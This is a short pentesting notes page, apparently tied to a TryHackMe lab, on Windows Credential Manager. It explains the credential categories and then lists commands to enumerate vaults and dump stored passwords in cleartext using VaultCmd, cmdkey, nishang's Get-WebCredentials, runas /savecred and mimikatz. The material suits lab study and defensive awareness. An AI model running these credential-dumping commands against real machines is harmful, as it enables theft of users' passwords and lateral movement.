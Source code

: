 # Windows Credential Manager

## Theory

Credential Manager is a Windows feature that stores logon-sensitive information for websites, applications, and networks. It contains login credentials such as usernames, passwords, and internet addresses. There are four credential categories:

* Web credentials contain authentication details stored in Internet browsers or other applications.
* Windows credentials contain Windows authentication details, such as NTLM or Kerberos.
* Generic credentials contain basic authentication details, such as clear-text usernames and passwords.
* Certificate-based credentials: Athunticated details based on certifications.

## Practice

{% tabs %}
{% tab title="Enum" %}
On Windows systems Vaultcmd & cmdkey can be used to list credentials.

```bash
# List vaults
C:\Users\Administrator> VaultCmd /list

# Extract and decrypt all master keys
sekurlsa::dpapi

# List property of a vault
C:\Users\Administrator> VaultCmd /listproperties:"Web Credentials"

# List creds in a vault
C:\Users\Administrator> VaultCmd /listcreds:"Web Credentials"

# List creds with cmdkey
C:\Users\Administrator> cmdkey /list
```
{% endtab %}

{% tab title="Dump" %}
Vaultcmd can't show credentials. We have to use alternate methods such as [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1)

```bash
# Get cleartext password
PS> Import-Module C:\Tools\Get-WebCredentials.ps1
PS> Get-WebCredentials

UserName  Resource             Password     Properties
--------  --------             --------     ----------
THMUser internal-app.thm.red Password! {[hidden, False], [applicationid, 00000000-0000-0000-0000-000000000000], [application, MSEdge]}
```

An alternative method of taking advantage of stored credentials is by using RunAs

```bash
# Runas with saved credential for "THM.red\thm-local"
C:\Users\Administrator> runas /savecred /user:THM.red\thm-local cmd.exe

# We also can use mimikatz to dump creds

mimikatz# privilege::debug
Privilege '20' OK

mimikatz# sekurlsa::credman
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/credharvesting" %}
